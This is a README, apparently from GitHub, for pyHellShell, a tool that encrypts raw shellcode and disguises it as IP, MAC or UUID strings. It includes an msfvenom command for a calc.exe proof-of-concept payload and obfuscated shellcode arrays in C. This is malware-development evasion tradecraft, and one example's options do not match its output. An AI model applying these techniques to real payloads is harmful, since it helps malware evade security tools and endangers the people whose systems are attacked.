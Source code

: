 # pyHellShell

pyHellShell is a python implementation of the tool [HellShell](https://github.dev/NUL0x4C/HellShell). pyHellShell takes in a raw payload file and processes it with encryption and obfuscation. Currently, pyHellShell supports 3 types of encryption and 4 types of obfuscation. 

## Feature 

**Encryption**
- xor
- rc4
- aes256

**Obfuscation** 
- ipv4
- ipv6
- mac
- uuid 

**Output Format**
- C: Can be directly used in C or CPP projects 
- Raw: Saves output to a file 

## Usage 

```bash
usage: pyHellShell.py [-h] -i INPUT [-e {xor,rc4,aes256}] [-k KEY] [-o {ipv4,ipv6,mac,uuid}] [-f {c,raw}] [-out OUTPUT]

PyHellShell: A tool for file encryption and obfuscation.

options:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Path to the input file.
  -e {xor,rc4,aes256}, --encryption {xor,rc4,aes256}
                        Encryption method.
  -k KEY, --key KEY     Encryption key.
  -o {ipv4,ipv6,mac,uuid}, --obfuscation {ipv4,ipv6,mac,uuid}
                        Obfuscation method.
  -f {c,raw}, --format {c,raw}
                        Output format (C array or raw text file).
  -out OUTPUT, --output OUTPUT
                        Path to the output file.
```

## Examples 

#### Payload Creation 
```bash
msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o calc.bin 
```

#### Encryption + Obfuscation, stdout with C Array 
```bash
└─$ python3 pyHellShell.py -i calc.bin -e xor -k testo -o ipv4     

[i] Input file          : calc.bin
[i] Encryption method   : xor
[i] Obfuscation method  : uuid
[i] Output format       : c
[i] Output file         : None

char* buf[] = {
        "90f02d88-9c9f-73a5-746f-353432243d25", "bd453b33-2d11-26f8-0f3c-ee216c27ff37", "06e43c53-3b35-d87b-3e2f-3e45a63c54b3", "191553d8-5871-354f-a4ba-792e75a49199", 
        "3b34353d-3dff-ee54-3148-2775b5f8f4e7", "3c736574-b4ea-1411-3c6e-a435f83c7730", "265433ee-b575-2290-278b-ac32ff5bfc2d", "4522a272-3bac-af45-d824-b2bd623564b2", 
        "94018f4c-773f-5023-6d36-4dbe01bd2b30", "3a4134e4-bf75-2412-f878-2730ee336826", "ff32b575-fc6b-722d-a42e-2c242b2a362e", "36352b24-3f35-f73b-8354-24218b8f2c24", 
        "ff272e2a-9a77-9023-8b9a-2e3cd5756573", "65746f74-3c73-f9e2-6472-746f35df42ff", "a69af300-9fcf-c7c1-2535-d5d2f0cee990", "b0f02da1-4847-0f63-7eef-8f850671d433", 
        "051b0176-3c74-fd32-b58b-b0101503171f", "0c0a5a09-7300-0000-0000-000000000000"
};

#define NumberOfElements 18
#define PayloadSize 27
```

#### Encryption + Obfuscation + save to file 
```bash
└─$ python3 pyHellShell.py -i calc.bin -e rc4 -k testo -o mac -f raw -out calc.rc4.mac.bin

[i] Input file          : calc.bin
[i] Encryption method   : rc4
[i] Obfuscation method  : mac
[i] Output format       : raw
[i] Output file         : calc.rc4.mac.bin

[+] Saved to file: calc.rc4.mac.bin

#define PayloadSize 278

└─$ cat calc.rc4.mac.bin                
fc:ce:98:c3:0c:8b,13:60:02:bc:76:8e,e8:66:6d:ce:5d:3c,05:cb:08:20:c7:a2,c0:16:e8:80:9d:e4,c5:e0:80:55:f0:9b,74:de:ec:b4:fb:18,bd:69:01:4a:ae:77,1b:26:aa:5a:bc:01,32:41:d3:12:bc:fb,5a:c1:a1:38:d0:f8,cf:7c:6a:8b:25:73,88:54:dc:2c:df:84,f1:3f:1c:c6:5b:8b,c5:fa:49:62:a8:f8,2d:53:84:eb:bc:0a,5b:51:3c:d1:c0:f6,1f:ad:7d:f1:23:06,a8:e0:ee:45:9e:63,76:b4:65:08:c9:fe,0b:e0:ff:62:88:aa,38:9e:f9:d4:9f:87,64:6e:42:76:7a:13,d6:c2:46:04:a2:34,71:11:54:41:4c:42,2d:4c:31:4d:07:0f,3f:2c:cb:de:02:3b,bf:ba:90:e4:be:85,fc:d7:f0:2e:c1:0c,17:02:09:a5:47:8d,93:e5:74:e2:39:92,bc:db:4a:73:47:42,9f:4a:78:0a:96:30,41:05:b2:ce:0c:7d,cd:89:09:a3:df:d8,ba:40:36:a4:5f:7b,8c:1c:19:a0:de:8c,da:46:2d:f2:44:0f,17:04:86:bb:b2:c1,43:8b:8e:33:40:76,a0:3d:a0:27:a6:45,f6:79:2b:1a:df:b7,64:80:3a:5b:9a:6d,d7:55:8d:71:7b:c5,c0:1f:8d:d7:06:62,96:09:85:42:60:74,6b:f7:00:00:00:00
```

#### Only Obfuscation + save to file 
```bash

└─$ python3 pyHellShell.py -i calc.bin -o ipv4 -f c     

[i] Input file          : calc.bin
[i] Encryption method   : None
[i] Obfuscation method  : ipv4
[i] Output format       : c
[i] Output file         : None

char* buf[] = {
        "252.72.131.228", "240.232.192.0", "0.0.65.81", "65.80.82.81", "86.72.49.210", "101.72.139.82", "96.72.139.82", "24.72.139.82", 
        "32.72.139.114", "80.72.15.183", "74.74.77.49", "201.72.49.192", "172.60.97.124", "2.44.32.65", "193.201.13.65", "1.193.226.237", 
        "82.65.81.72", "139.82.32.139", "66.60.72.1", "208.139.128.136", "0.0.0.72", "133.192.116.103", "72.1.208.80", "139.72.24.68", 
        "139.64.32.73", "1.208.227.86", "72.255.201.65", "139.52.136.72", "1.214.77.49", "201.72.49.192", "172.65.193.201", "13.65.1.193", 
        "56.224.117.241", "76.3.76.36", "8.69.57.209", "117.216.88.68", "139.64.36.73", "1.208.102.65", "139.12.72.68", "139.64.28.73", 
        "1.208.65.139", "4.136.72.1", "208.65.88.65", "88.94.89.90", "65.88.65.89", "65.90.72.131", "236.32.65.82", "255.224.88.65", 
        "89.90.72.139", "18.233.87.255", "255.255.93.72", "186.1.0.0", "0.0.0.0", "0.72.141.141", "1.1.0.0", "65.186.49.139", 
        "111.135.255.213", "187.240.181.162", "86.65.186.166", "149.189.157.255", "213.72.131.196", "40.60.6.124", "10.128.251.224", "117.5.187.71", 
        "19.114.111.106", "0.89.65.137", "218.255.213.99", "97.108.99.122", "122.46.101.120", "101.0.0.0"
};

#define NumberOfElements 70
#define PayloadSize 278

```




## Credits 

- [HellShell](https://github.dev/NUL0x4C/HellShell)
- MiniShell from Maldev Academy 
- [Maldev Academy](https://maldevacademy.com/): pyHellShell was created while going through the payload obfuscation modules in maldev academy. 